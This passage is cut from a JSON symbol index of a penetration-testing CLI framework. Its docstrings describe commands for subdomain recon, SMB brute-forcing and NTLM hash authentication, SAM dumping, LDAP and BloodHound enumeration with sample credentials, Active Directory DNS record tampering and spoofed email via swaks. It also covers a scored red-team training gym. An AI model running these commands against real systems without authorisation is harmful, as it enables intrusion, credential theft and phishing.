self.params['domain'], defaulting to\n    the previously extracted self.params['domain'].\n\n5. **Execute 'alterx' on the self.params['domain']:**\n- Executes the 'alterx' tool on the specified self.params['domain'] via a system command.\n- The subdomain enumeration results are saved to a file in the 'sessions' directory, with the filename\n    `subdomain_dic_<self.params['domain']>.txt`.\n\nParameters:\n- line (str): The self.params['domain'] on which to run 'alterx'. If empty, the function prompts the user for input.\n\nReturns:\n- None: The function performs its operations but does not return any value.\n\nDependencies:\n- The function relies on the external tool 'alterx' and assumes the presence of the `is_binary_present()`\nand `get_domain()` helper functions.", "kind": "method", "line": 874, "name": "do_alterx", "signature": "def do_alterx(self, line)"}, {"doc": "Extracts usernames from a JSON output generated by go-windapsearch and appends them\nto the file sessions/users.txt.\n\nThe function loads the JSON file, parses the `sAMAccountName` attribute for each user, and appends\nthe username to the sessions/users.txt file.\n\n:param line: Path to the JSON file (e.g., 'sessions/<dc_ip>_windap.json').\n:returns: None", "kind": "method", "line": 951, "name": "do_windapsearchscrapeusers", "signature": "def do_windapsearchscrapeusers(self, line)"}, {"doc": "Search for a CVE using the CIRCL API.\n\nThis function sends a GET request to the CIRCL API to retrieve CVE details\nand prints relevant information to the screen.\n\n:param line: A string containing the CVE ID (optional).\n:returns: None", "kind": "method", "line": 987, "name": "do_cve", "signature": "def do_cve(self, line)"}, {"doc": "Command serveralive2: Uses Impacket to connect to a remote MSRPC interface and retrieves the server bindings.\n\nThis function allows the user to:\n1. Establish a connection to a remote MSRPC interface using a specified target from self.params['rhost'].\n2. Set the authentication level to none.\n3. Retrieve and print the network addresses from the server bindings using the IObjectExporter.\n\nArgs:\n    line (str): Unused in this context. The target is derived from self.params['rhost'].\n\nReturns:\n    None\n\nExample:\n    serveralive2", "kind": "method", "line": 1036, "name": "do_serveralive2", "signature": "def do_serveralive2(self, line)"}, {"doc": "Performs various checks on a selected binary to gather information and protections.\n\nThis function executes the following checks:\n1. Checks program protections using checksec.\n2. Displays information about the ELF binary using readelf.\n3. Retrieves the address of the system() function using objdump.\n4. Searches for a known string within the binary using objdump.\n5. Generates a cyclic pattern for padding using pwntools.\n6. Lists gadgets in the binary using ROPgadget.\n\nParameters:\nline (str): Command argument not used in this function.\n\nReturns:\nNone", "kind": "method", "line": 1070, "name": "do_binarycheck", "signature": "def do_binarycheck(self, line)"}, {"doc": "Executes the dnstool.py tool to modify Active Directory-integrated DNS records.\n\nThis function performs the following actions:\n1. Checks if Krbrelayx is installed; if not, it clones the repository and installs dependencies.\n2. Modifies DNS records by adding, removing, or querying based on the specified options.\n\nParameters:\nline (str): Command arguments specifying the DNS action, target record, and data.\n            Expected format:\n                - hostname user password record action -options\n                - Options include:\n                - -a to add a record\n                - -r to remove a record\n                - --forest to target ForestDnsZones\n\nReturns:\nNone", "kind": "method", "line": 1115, "name": "do_dnstool_py", "signature": "def do_dnstool_py(self, line)"}, {"doc": "Executes Metabigor commands for OSINT and scanning tasks with guided input or predefined arguments.\n\nThis function performs the following actions:\n1. Verifies the presence of Metabigor; if not installed, it clones the repository and installs the required dependencies.\n2. Guides the user through selecting the type of task (IP discovery, related domains, scan, etc.), target, and additional parameters.\n3. Constructs and executes the appropriate Metabigor command based on the user's input or the provided argument.\n\nParameters:\nline (str): Command-line arguments for Metabigor. If not provided, interactive input will be used.\n\nReturns:\nNone", "kind": "method", "line": 1161, "name": "do_metabigor", "signature": "def do_metabigor(self, line)"}, {"doc": "Executes the httprobe tool to probe domains for working HTTP and HTTPS servers.\n\nThis function performs the following actions:\n1. Verifies if httprobe is installed; if not, it installs the tool automatically.\n2. Probes domains from the input file or standard input.\n3. Simplifies the user experience by minimizing required commands and leveraging self.params for defaults.\n\nParameters:\nline (str): Optional command arguments specifying the self.params['domain'] or just httprobe.\n            Example usage:\n            just provide the self.params['domain']: httprobe example.com\n\nReturns:\nNone", "kind": "method", "line": 1237, "name": "do_httprobe", "signature": "def do_httprobe(self, line)"}, {"doc": "Performs reconnaissance on a specified self.params['domain'] using crt.sh (the target must be visible on internet), pup, httprobe, and EyeWitness.\n\nThis function automates the process of gathering subdomains for a given self.params['domain'], verifying\ntheir reachability, and generating a report using the EyeWitness tool.\n\nWorkflow:\n    1. Determines the target self.params['domain'] from the `line` argument or defaults to `self.params['domain']`.\n    2. Queries the crt.sh certificate transparency logs for subdomains using `curl`.\n    3. Filters and extracts self.params['domain']-related text data using `pup`.\n    4. Sorts and removes duplicate entries, then validates subdomains with `httprobe`.\n    5. Saves the results to a temporary file.\n    6. Executes EyeWitness to generate a web-based reconnaissance report for the subdomains.\n\nRequirements:\n    - `pup`: A command-line HTML parser.\n    - `httprobe`: A tool to check live HTTP/HTTPS endpoints.\n    - EyeWitness: A tool for generating web reconnaissance reports.\n\nParameters:\n    line (str): The self.params['domain'] to target for reconnaissance. If omitted, the self.params['domain'] defaults to `self.params['domain']`.\n\nExamples:\n    1. Specify a self.params['domain'] directly:\n        >>> recon self.params['domain'].com\n\n    2. Use the default self.params['domain'] from self.params:\n        >>> recon\nRaises:\n    None. Errors in execution will be logged or printed as part of the command output.", "kind": "method", "line": 1280, "name": "do_recon", "signature": "def do_recon(self, line)"}, {"doc": "Executes the DNSChef tool to monitor DNS queries and intercept responses.\n\nThis function:\n    - Installs DNSChef if not already installed.\n    - Executes the DNSChef command with the provided parameters.\n    - Displays the result in the terminal.\n\nBehavior:\n    - Requires `python3`, `python3-pip`, and `git` to be installed.\n    - Uses parameters from `self.params` for self.params['domain'], username, password, and target.\n\nUsage:\n    dnschef", "kind": "method", "line": 1334, "name": "do_dnschef", "signature": "def do_dnschef(self, line)"}, {"doc": "Retrieves detailed information about an IP address using the ARIN API.\n\nThis function takes an IP address as input, queries the ARIN API to get detailed\ninformation about the IP, and then displays the organization name and the network\nrange associated with the IP.\n\nArgs:\n    line (str): The command line input containing the IP address to query.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample:\n    >>> ipinfo 1.1.1.1", "kind": "method", "line": 1369, "name": "do_ipinfo", "signature": "def do_ipinfo(self, line)"}, {"kind": "function", "line": 202, "name": "_set_exit", "signature": "def _set_exit(code)"}]}, {"doc": "Red Team Gym CLI command set — gamified pentest training.  Integrates with the ELO/karma system and Docker lab scenarios to provide scored challenges with leaderboards, technique tracking, and skill progression.", "id": "cli/commands/redteam_gym.py", "kind": "module", "label": "redteam_gym.py", "language": "py", "sha256": "7f574dee8220d4f6", "symbol_count": 8, "symbols": [{"doc": "Red Team Gym — scored pentest challenges with leaderboards.", "kind": "class", "line": 32, "name": "RedTeamGymCommandSet", "signature": "class RedTeamGymCommandSet(LazyOwnCommandSet)"}, {"doc": "Red Team Gym — gamified pentest training with ELO scoring.\n\nUsage:\n    gym list                    — show available challenges\n    gym start <challenge_id>    — begin a challenge\n    gym submit [--failed] [--techniques t1,t2,...]  — submit completed challenge\n    gym status                  — show active challenge\n    gym leaderboard [top_n]     — show top players\n    gym hint                    — get a hint for the active challenge\n\nChallenges award ELO that feeds into the existing karma system\n(Noob -> Rookie -> Skidy -> Hacker -> Pro -> Elite -> Godlike).\n\nExamples:\n    gym list\n    gym start first_blood_web\n    gym submit --techniques sqli_manual,csrf_bypass\n    gym leaderboard 10", "kind": "method", "line": 39, "name": "do_gym", "signature": "def do_gym(self, line)"}, {"doc": "Display all available gym challenges.", "kind": "method", "line": 83, "name": "_gym_list", "signature": "def _gym_list(self)"}, {"doc": "Begin a gym challenge.", "kind": "method", "line": 117, "name": "_gym_start", "signature": "def _gym_start(self, args)"}, {"doc": "Submit a completed challenge for scoring.", "kind": "method", "line": 154, "name": "_gym_submit", "signature": "def _gym_submit(self, args)"}, {"doc": "Show the currently active challenge.", "kind": "method", "line": 198, "name": "_gym_status", "signature": "def _gym_status(self)"}, {"doc": "Show the gym leaderboard.", "kind": "method", "line": 223, "name": "_gym_leaderboard", "signature": "def _gym_leaderboard(self, args)"}, {"doc": "Get the next hint for the active challenge.", "kind": "method", "line": 257, "name": "_gym_hint", "signature": "def _gym_hint(self)"}]}, {"doc": "Resource script commands — run .ls scripts, record macros, spool output.  Provides: resource <file>    — run an enhanced resource script makerc <file>      — record commands to a script (alias) spool <file|off>   — log output to file", "id": "cli/commands/resource_scripting.py", "kind": "module", "label": "resource_scripting.py", "language": "py", "sha256": "ffaaeb7a6a59baa0", "symbol_count": 8, "symbols": [{"doc": "Enhanced resource script execution and spooling.", "kind": "class", "line": 25, "name": "ResourceCommandSet", "signature": "class ResourceCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 31, "name": "_make_context", "signature": "def _make_context(self)"}, {"doc": "Run an enhanced resource script.\n\nUsage: resource <script.ls> [--dry-run]\n\nSupports variables ($var), conditionals (if/else/endif with real\nexpressions: ==, !=, =~, >, contains, defined), loops\n(while/endwhile, for/endfor with break/continue), macros\n(macro/endmacro/call), spool, sleep, echo, and comments (#).\n\nExample:\n    resource scripts/auto_recon.ls\n    resource scripts/auto_recon.ls --dry-run", "kind": "method", "line": 49, "name": "do_resource", "signature": "def do_resource(self, line)"}, {"doc": "Record session commands to a resource script.\n\nUsage:\n    makerc <script.ls>  — start recording commands into the script\n    makerc off          — stop recording", "kind": "method", "line": 88, "name": "do_makerc", "signature": "def do_makerc(self, line)"}, {"doc": "Log session output to a file.\n\nUsage:\n    spool <file>   — start logging to file\n    spool off      — stop logging", "kind": "method", "line": 122, "name": "do_spool", "signature": "def do_spool(self, line)"}, {"doc": "Alias for makerc — record commands to a script.", "kind": "method", "line": 152, "name": "do_mkrc", "signature": "def do_mkrc(self, line)"}, {"kind": "function", "line": 35, "name": "on_cmd", "signature": "def on_cmd(cmd)"}, {"kind": "function", "line": 39, "name": "on_print", "signature": "def on_print(msg)"}]}, {"doc": "Scanning command set.  Phase-scoped home for the scanning operator commands (category ``02. Scanning & Enumeration``, kill-chain phase ``scan``). This module is an empty, active ``CommandSet`` scaffold: migrate one ``do_*`` method at a time out of ``lazyown.py`` into this class.  This set is a sibling of :class:`cli.commands.enum.EnumCommandSet`; both share the ``02. Scanning & Enumeration`` cmd2 category but differ by kill-chain phase (``scan`` vs ``enum``). Put broad host/service discovery and network scanners here; put targeted service enumeration in ``enum.py``.  Migration rule -------------- When you paste a ``do_<name>`` method here you MUST delete the original copy from ``lazyown.py`` in the same change. Registering the same command name on both the shell and an active ``CommandSet`` raises a duplicate-command error at startup. Decorate migrated methods with ``@cmd2.with_category(scanning_category)`` so they keep their help grouping, and rely on :class:`cli.commands._base.LazyOwnCommandSet` to forward ``self.params`` / ``self.cmd`` / other shell state once registered.  Discovery is automatic: :func:`cli.registry.register_command_sets` finds this class at startup, so no wiring change is needed as commands are added.", "id": "cli/commands/scan.py", "kind": "module", "label": "scan.py", "language": "py", "sha256": "75f86bd28ab7ee1c", "symbol_count": 17, "symbols": [{"doc": "Scanning phase commands (migrate ``do_*`` here one at a time).", "kind": "class", "line": 49, "name": "ScanCommandSet", "signature": "class ScanCommandSet(LazyOwnCommandSet)"}, {"doc": "Uses `gobuster` for directory and virtual host fuzzing based on provided parameters. Supports directory enumeration and virtual host discovery.\n\n:param line: The options and arguments for `gobuster`. The `line` parameter can include the following:\n    - `url`: Perform directory fuzzing on a specified URL. Requires `url` and `dirwordlist` to be assign.\n    - `vhost`: Perform virtual host discovery on a specified URL. Requires `url` and `dirwordlist` to be assign.\n    - Any other argument: General directory fuzzing with additional parameters.\n\n:returns: None\n\nManual execution:\nTo manually use `gobuster`, use the following commands:\n\n1. For directory fuzzing:\n    gobuster dir --url <url>/ --wordlist <wordlist>\n\nExample:\n    gobuster dir --url http://example.com/ --wordlist /path/to/dirwordlist\n\n2. For virtual host discovery:\n    gobuster vhost --append-domain -u <url> -w <wordlist> --random-agent -t 600\n\nExample:\n    gobuster vhost --append-domain -u http://example.com -w /path/to/dirwordlist --random-agent -t 600\n\n3. For general directory fuzzing with additional parameters:\n    gobuster dir --url http://<rhost>/ --wordlist <wordlist> <additional_parameters>\n\nExample:\n    gobuster dir --url http://10.10.10.10/ --wordlist /path/to/dirwordlist -x .php,.html", "kind": "method", "line": 56, "name": "do_gobuster", "signature": "def do_gobuster(self, line)"}, {"doc": "Executes an ARP scan using `arp-scan`.\n\nThis function performs an ARP scan on the local network using the `arp-scan` tool. The network device to be used for scanning must be specified.\n\nUsage:\n    arpscan\n\n:param line: Command parameters (not used in this function).\n:type line: str\n\n- Executes the `arp-scan` command with the specified network device.\n\n:returns: None\n\nManual execution:\n1. Ensure that the network device is assign using the appropriate parameter.\n2. Run the method to perform an ARP scan.\n\nDependencies:\n- `arp-scan` must be installed on the system.\n- The `sudo` command must be available for executing `arp-scan`.\n\nExamples:\n    1. assign the device parameter using `assign device <network_device>`.\n    2. Run `arpscan` to perform the ARP scan.\n\nNote:\n    - The network device must be configured and available on the system for the scan to work.\n    - Ensure that `arp-scan` is installed and accessible from the command line.", "kind": "method", "line": 129, "name": "do_arpscan", "signature": "def do_arpscan(self, line)"}, {"doc": "Runs the `dirsearch` tool to perform directory and file enumeration on a specified URL.\n\nThis function executes `dirsearch` to scan a given URL for directories and files, while excluding specific HTTP status codes from the results. If `dirsearch` is not installed, the function will attempt to install it before running the scan.\n\nUsage:\n    dirsearch <url>\n\n:param line: Not used in this function. The URL is provided via the `url` parameter.\n:type line: str\n:returns: None\n\nManual execution:\n1. If `dirsearch` is present, the command `dirsearch -u <url> -x 403,404,400` is executed.\n2. If `dirsearch` is not present, the function installs `dirsearch` using `sudo apt install dirsearch -y` and then runs the command.\n\nDependencies:\n- `dirsearch` must be installed. If not present, it will be installed using `sudo apt`.\n- Ensure the URL is assign via the `url` parameter before calling this function.\n\nExample:\n    dirsearch http://example.com/\n\nNote:\n    - Ensure that the `url` parameter is assign before calling this function.\n    - The `-x` option specifies HTTP status codes to exclude from the results (e.g., 403, 404, 400).\n    - The function will attempt to install `dirsearch` if it is not already installed.", "kind": "method", "line": 170, "name": "do_dirsearch", "signature": "def do_dirsearch(self, line)"}, {"doc": "This function constructs and executes a command for the 'dmitry' tool.\nIt first checks if the 'url' parameter is set. If not, it prints an error message.\nIf the 'url' is set, it extracts the domain from the URL using the get_domain function.\nThen, it constructs a 'dmitry' command with the specified parameters and prepares it for execution.\n\nRun a domain whois lookup (w), an IP whois lookup (i), retrieve Netcraft info (n), search for subdomains (s), search for email addresses (e), do a TCP port scan (p), and save the output to example.txt (o) for the domain example.com:\n\nParameters:\nline (str): The command line input for this function.\n\nExpected self.params keys:\n- url (str): The URL to be used for the 'dmitry' command.\n\nExample usage:\n- assign url http://example.com\n- do_dmitry", "kind": "method", "line": 213, "name": "do_dmitry", "signature": "def do_dmitry(self, line)"}, {"doc": "Command feroxbuster: Installs and runs Feroxbuster for performing forced browsing and directory brute-forcing.\n\nThis function performs the following tasks:\n1. Installs Feroxbuster using a `curl` command if it's not already installed.\n2. Prompts the user for required inputs like the target URL, wordlist, file extensions, and additional options.\n3. Executes Feroxbuster for directory enumeration and brute-force attacks.\n\nArgs:\n    line (str): Optional argument for specifying the target URL, wordlist, and other Feroxbuster options.\n\nReturns:\n    None\n\nExample:\n    feroxbuster -u http://example.com -w wordlist.txt -x php,html", "kind": "method", "line": 248, "name": "do_feroxbuster", "signature": "def do_feroxbuster(self, line)"}, {"doc": "Perform an Nmap scan using a specified script and port.\n\n:param line: A string containing the Nmap script and port, separated by a space. Example: \"http-enum 80\".\n\n:returns: None\n\nManual execution:\nTo manually run an Nmap scan with a script and port, use the following command format:\n\n    nmap --script <script> -p <port> <target> -oN <output-file>\n\nExample:\nIf you want to use the script `http-enum` on port `80` for the target `10.10.10.10`, you would run:\n\n    nmap --script http-enum -p 80 10.10.10.10 -oN sessions/webScan_10.10.10.10\n\nEnsure you have the target host (`rhost`) assign in the parameters and provide the script and port as arguments. The results will be saved in the file `sessions/webScan_<rhost>`.", "kind": "method", "line": 316, "name": "do_nmapscript", "signature": "def do_nmapscript(self, line)"}, {"doc": "Executes a Nuclei scan on a specified target URL or host.\n\nUsage:\n    nuclei -u <URL> [-o <output file>] [other options]\n\nIf a URL is provided as an argument, it will be used as the target for the scan.\nOtherwise, it will use the target specified in self.params[\"rhost\"].", "kind": "method", "line": 350, "name": "do_nuclei", "signature": "def do_nuclei(self, line)"}, {"doc": "Executes Amass to perform a passive enumeration on a given domain.\n\nThis function performs the following steps:\n1. Executes the Amass tool with the provided domain for passive enumeration.\n2. Saves the results to a file named 'results.txt' in the current directory.\n\nParameters:\nline (str): The domain to be enumerated, e.g., 'example.com'.\n\nReturns:\nNone", "kind": "method", "line": 392, "name": "do_amass", "signature": "def do_amass(self, line)"}, {"doc": "Executes a BBOT scan to perform various reconnaissance tasks.\n\nThis function leverages BBOT, a reconnaissance tool, to perform tasks such as subdomain enumeration,\nemail gathering, web scanning, and more. It dynamically determines the operation based on user input\nand executes the appropriate BBOT commands.\n\nParameters:\n    line (str): User input specifying the target and optional presets or configurations.\n\nUsage:\n    bbot -t <target> -p <preset>\n\n    Examples:\n        bbot -t evilcorp.com -p subdomain-enum\n        bbot -t evilcorp.com -p email-enum spider web-basic", "kind": "method", "line": 422, "name": "do_bbot", "signature": "def do_bbot(self, line)"}, {"doc": "Executes Osmedeus scans with guided input for various scanning scenarios.\n\nThis function performs the following actions:\n1. Verifies the presence of Osmedeus; if not installed, it clones the repository\nand installs the required dependencies.\n2. Guides the user through selecting the type of scan, target, and any additional\nparameters needed for the scan.\n3. Constructs and executes the appropriate Osmedeus command.\n\nParameters:\nline (str): Command-line arguments for the tool. If not provided, interactive\n            input will be used.\n\nReturns:\nNone", "kind": "method", "line": 473, "name": "do_osmedeus", "signature": "def do_osmedeus(self, line)"}, {"doc": "Command magicrecon: Automates the setup and usage of MagicRecon to perform various types of reconnaissance and vulnerability scanning on specified targets.\n\nThis function performs the following tasks:\n1. Clones and installs MagicRecon if not already installed.\n2. Prompts the user to input the target domain, list, or wildcard if not provided.\n3. Executes MagicRecon with the specified options for target reconnaissance and vulnerability analysis.\n4. Supports notifications through Discord, Telegram, or Slack if configured.\n\nArgs:\n    line (str): Command-line arguments specifying the target and recon mode. If not provided, the function prompts the user for required inputs.\n\nReturns:\n    None\n\nExample:\n    magicrecon -d example.com -a", "kind": "method", "line": 548, "name": "do_magicrecon", "signature": "def do_magicrecon(self, line)"}, {"doc": "Discover active hosts in a subnet by performing a ping sweep.\n\nThis method constructs and executes a bash script that performs a\nping sweep on the specified subnet to identify active hosts. The\nsubnet is determined from the 'rhost' parameter. For each host in\nthe subnet, a ping request is sent, and active hosts are reported.\n\nParameters:\n- line (str): The input line argument is not used in this function.\n\nBehavior:\n- Extracts the first three octets of the 'rhost' parameter to form\nthe base IP pattern.\n- Constructs a bash script to ping each IP address in the subnet\n(from .1 to .254) and reports active hosts.\n- The generated bash script is displayed to the user.\n- Prompts the user to confirm whether they want to execute the\ngenerated command.\n- If the user confirms, executes the command using `self.cmd()`.\n- If the user declines, copies the command to the clipboard using\n`copy2clip()`.\n\nSide Effects:\n- Executes system commands and may affect the system environment.\n- May modify the clipboard content if the user chooses not to execute.\n\nNotes:\n- Ensure that the 'rhost' parameter is a valid IP address and that\nthe `check_rhost()` function is implemented to validate the IP.\n- `print_msg()` is used to display the constructed command to the\nuser.\n- `copy2clip()` is used to copy the command to the clipboard if\nnot executed.\n\nExample:\n>>> do_hostdiscover(\"example_input\")", "kind": "method", "line": 606, "name": "do_hostdiscover", "signature": "def do_hostdiscover(self, line)"}, {"doc": "Scan all ports on a specified host to identify open ports.\n\nThis method constructs and executes a bash script that performs a\nport scan on the specified host to determine which ports are open.\nIt scans all ports from 0 to 65535 and reports any that are open.\n\nParameters:\n- line (str): The input line argument is not used in this function.\n\nBehavior:\n- Extracts the 'rhost' parameter to determine the target IP address.\n- Constructs a bash script to scan all ports on the target IP address\nand report open ports.\n- The generated bash script is displayed to the user.\n- Prompts the user to confirm whether they want to execute the\ngenerated command.\n- If the user confirms, executes the command using `self.cmd()`.\n- If the user declines, copies the command to the clipboard using\n`copy2clip()`.\n\nSide Effects:\n- Executes system commands and may affect the system environment.\n- May modify the clipboard content if the user chooses not to execute.\n\nNotes:\n- Ensure that the 'rhost' parameter is a valid IP address and that\nthe `check_rhost()` function is implemented to validate the IP.\n- `print_msg()` is used to display the constructed command to the\nuser.\n- `copy2clip()` is used to copy the command to the clipboard if\nnot executed.\n\nExample:\n>>> do_portdiscover(\"example_input\")", "kind": "method", "line": 664, "name": "do_portdiscover", "signature": "def do_portdiscover(self, line)"}, {"doc": "Scan all ports on a specified host to identify open ports and associated services.\n\nThis method constructs and executes a bash script that performs a\nport scan on the specified host to determine which ports are open\nand identifies any services running on those open ports. It scans\nall ports from 0 to 65535.\n\nParameters:\n- line (str): The input line argument is not used in this function.\n\nBehavior:\n- Extracts the 'rhost' parameter to determine the target IP address.\n- Constructs a bash script to scan all ports on the target IP address\nand report open ports along with any associated services.\n- The generated bash script is displayed to the user.\n- Prompts the user to confirm whether they want to execute the\ngenerated command.\n- If the user confirms, executes the command using `self.cmd()`.\n- If the user declines, copies the command to the clipboard using\n`copy2clip()`.\n\nSide Effects:\n- Executes system commands and may affect the system environment.\n- Requires `sudo` privileges to use `lsof` for identifying services.\n- May modify the clipboard content if the user chooses not to execute.\n\nNotes:\n- Ensure that the 'rhost' parameter is a valid IP address and that\nthe `check_rhost()` function is implemented to validate the IP.\n- `print_msg()` is used to display the constructed command to the\nuser.\n- `copy2clip()` is used to copy the command to the clipboard if\nnot executed.\n\nExample:\n>>> do_portservicediscover(\"example_input\")", "kind": "method", "line": 724, "name": "do_portservicediscover", "signature": "def do_portservicediscover(self, line)"}, {"doc": "This function executes the web security scanning tool Skipfish\nusing the provided configuration and parameters. It allows\nscanning a specified target (rhost) and saves the results\nin a designated output directory.\n\nParameters:\n- self: Refers to the instance of the class in which this function is defined.\n- line: A string that may contain additional options to modify the scanning behavior.\n\nFunction Flow:\n1. Default values are set for the target IP (rhost), port (port), and output directory (outputdir).\n2. The validity of the target (rhost) is checked using the `check_rhost` function.\n3. If no argument is provided in `line`, a `skipfish` command is constructed using the default values.\n4. If `line` starts with 'url', the URL configured in `self.params['url']` is retrieved and used to construct the `skipfish` command.\n5. If the URL is not configured and an attempt is made to use the 'url' option, an error message is printed, and the function exits.\n6. The constructed `skipfish` command is displayed on the console and executed using `os.system`.\n\nNote:\n- The function assumes that the `skipfish` tool is installed on the system.\n- The output of the scan is saved in the directory `sessions/{rhost}/skipfish/`.\n- The wordlist used by Skipfish is specified in `wordlist`.", "kind": "method", "line": 789, "name": "do_skipfish", "signature": "def do_skipfish(self, line)"}, {"doc": "Perform port scanning using vscan with the provided parameters.\n\n:param line: This parameter is not used in the function but can be reserved for future use.\n\n:returns: None\n\nManual execution:\nTo manually run `vscan` for port scanning, use the following command:\n\n    ./vscan -host <hosts> -p <ports>\n\nThis function prompts the user for the target hosts and ports, and executes the vscan command accordingly.", "kind": "method", "line": 839, "name": "do_vscan", "signature": "def do_vscan(self, line)"}]}, {"doc": "scan commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/scan_migrated.py", "kind": "module", "label": "scan_migrated.py", "language": "py", "sha256": "8a3503484817a7b7", "symbol_count": 52, "symbols": [{"kind": "class", "line": 29, "name": "ScanMigratedCommandSet", "signature": "class ScanMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Execute CrackMapExec (CME) for SMB enumeration and authentication attempts against a target.\n\nThis function provides a range of SMB operations using CME, including:\n1. RID brute-forcing, which attempts to enumerate users via RID cycling.\n2. Share enumeration to list SMB shares on the target.\n3. User authentication to verify credentials against the target.\n4. Brute-force authentication using username and password lists.\n5. Hash-based authentication to attempt access using an NTLM hash.\n\nParameters:\nline (str): Specifies the action to perform, which can be one of the following:\n            - \"rid\": Enumerates users by attempting RID brute-force.\n            - \"shares\": Lists SMB shares on the target.\n            - \"user\": Verifies credentials from a stored credential file or prompts for a username and password.\n            - \"brute\": Attempts brute-force authentication using a user and password dictionary.\n            - \"hash\": Attempts authentication using an NTLM hash file.\n            If no valid option is provided, the function defaults to performing basic SMB enumeration.\n\nReturns:\nNone\n\nManual Execution Example:\nTo manually run CrackMapExec for SMB enumeration, use:\n\n    crackmapexec smb <target>\n\nExample:\n    crackmapexec smb 10.10.11.24\n\nThis command performs basic SMB enumeration and checks against the specified target IP address.", "kind": "method", "line": 34, "name": "do_cme", "signature": "def do_cme(self, line)"}, {"doc": "Dumps LDAP information using `ldapdomaindump` with credentials from a file.\n\n:param line: The self.params['domain'] to use for authentication (e.g., 'self.params['domain'].local').\n\n:returns: None\n\nManual execution:\nTo manually run `ldapdomaindump` for LDAP enumeration, use the following command:\n\n    ldapdomaindump -u '<self.params['domain']>\\<username>' -p '<password>' <target>\n\nExample:\n    ldapdomaindump -u 'self.params['domain'].local\\Administrator' -p 'passadmin123' 10.10.11.23\n\nEnsure you have a file `sessions/credentials.txt` in the format `user:password`, where each line contains credentials for the LDAP enumeration.", "kind": "method", "line": 173, "name": "do_ldapdomaindump", "signature": "def do_ldapdomaindump(self, line)"}, {"doc": "Perform LDAP enumeration using bloodhound-python with credentials from a file.\n\n:param line: This parameter is not used in the function but could be used for additional options or self.params['domain'] information.\n\n:returns: None\n\nManual execution:\nTo manually run `bloodhound-python` for LDAP enumeration, use the following command:\n\n    bloodhound-python -c All -u '<username>' -p '<password>' -ns <target>\n\nExample:\n    bloodhound-python -c All -u 'usuario' -p 'password' -ns 10.10.10.10\n\nEnsure you have a file `sessions/credentials.txt` with the format `user:password`, where each line contains credentials for enumeration.", "kind": "method", "line": 215, "name": "do_bloodhound", "signature": "def do_bloodhound(self, line)"}, {"doc": "Sends an email using `swaks` (Swiss Army Knife for SMTP).\n\nThis method constructs and executes a `swaks` command to send an email from an attacker’s address\nto a victim’s address, with a specified message body. The command is executed using the SMTP server\naddress provided in the parameters.\n\nParameters:\n- `line`: (str) Input line that is not used in this function.\n\nFunctionality:\n1. Retrieves the SMTP server address (`self.params['rhost']`) from the object's parameters.\n2. Checks if the server address is valid using `check_rhost()`.\n3. Prompts the user for the sender's email address (`from_attacker`).\n4. Prompts the user for the recipient's email address (`to_victim`).\n5. Prompts the user for the message body (`body`).\n6. Constructs the `swaks` command with the provided options.\n7. Executes the command using `self.cmd()`.\n8. Copies the command to the clipboard using `copy2clip()`.\n\nExample usage:\n>>> do_swaks(\"line\")\n\nswaks --from attacker@hell.com --to victim@heaven.com,victim2@heaven.com,victim3@heaven.com   --body \"testing\" --server 127.0.0.1", "kind": "method", "line": 264, "name": "do_swaks", "signature": "def do_swaks(self, line)"}, {"doc": "Run `impacket-samrdump` to dump SAM data from specified ports.\n\nThis function executes `impacket-samrdump` to retrieve SAM data from the target host on ports 139 and 445. It first checks if the `self.params['rhost']` parameter is valid, and if so, it runs the command for both ports.\n\nUsage:\n    samrdump <target_host>\n\n:param line: The target host to dump SAM data from.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, specify the target host. The function will attempt to dump SAM data from the host on ports 139 and 445.\nimpacket-samrdump -port 445 10.10.10.10\nNote: Ensure that `impacket-samrdump` is installed and properly configured on your system.", "kind": "method", "line": 303, "name": "do_samrdump", "signature": "def do_samrdump(self, line)"}, {"doc": "Performs a Lynis audit on the specified remote system.\n\nThis function executes the `modules/lazylynis.sh` script with the target host defined in the `self.params['rhost']` parameter. It is used to perform a security audit of the remote system using Lynis.\n\nUsage:\n    lynis\n\n:param line: This parameter is not used in the current implementation.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, ensure that the `modules/lazylynis.sh` script is available and executable. Provide the target host in the format `lynis`.\nsudo lynis audit system remote 10.10.10.10 more info check modules/lazylynis.sh\nNote: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message. For more details, check `modules/lazylynis.sh`.", "kind": "method", "line": 358, "name": "do_lynis", "signature": "def do_lynis(self, line)"}, {"doc": "Performs an SNMP check on the specified target host.\n\nThis function executes the `snmp-check` command against the target host defined in the `self.params['rhost']` parameter.\n\nUsage:\n    snmpcheck\n\n:param line: This parameter is not used in the current implementation.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, ensure that `snmp-check` is installed and provide a target host in the format `snmpcheck`.\nsnmp-check 10.10.10.10\nNote: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message.", "kind": "method", "line": 387, "name": "do_snmpcheck", "signature": "def do_snmpcheck(self, line)"}, {"doc": "Performs an SNMP check on the specified target host.\n\nThis function executes the `snmp-check` command against the target host defined in the `self.params['rhost']` parameter.\n\nUsage:\n    snmpwalk\n\n:param line: This parameter is not used in the current implementation.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run this task, ensure that `snmpwalk -v 2c -c public` is installed and provide a target host in the format `snmpcheck`.\nsnmpwalk -v 2c -c public 10.10.10.10\nNote: The function assumes that `self.params['rhost']` is a valid host address. If `self.params['rhost']` is not valid, it will print an error message.", "kind": "method", "line": 414, "name": "do_snmpwalk", "signature": "def do_snmpwalk(self, line)"}, {"doc": "Enumerates SMTP users using the `smtp-user-enum` tool with the VRFY method.\n\n1. Checks if the `self.params['rhost']` (remote host) parameter is set:\n- If not set, displays an error message and exits the function.\n\n2. Checks if the `usrwordlist` (user wordlist) parameter is provided:\n- If not provided, displays an error message indicating that the `p` or `payload` parameter should be used to load payloads.\n\n3. If both parameters are provided:\n- Displays the command that will be executed for user enumeration.\n- Runs `sudo smtp-user-enum -M VRFY -U <usrwordlist> -t <self.params['rhost']>` to perform user enumeration.\n\n:param line: Not used in this function.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- Ensure that the `self.params['rhost']` parameter is assign with the target IP address using `set self.params['rhost'] <IP>`.\n- Load the user wordlist using the `assign 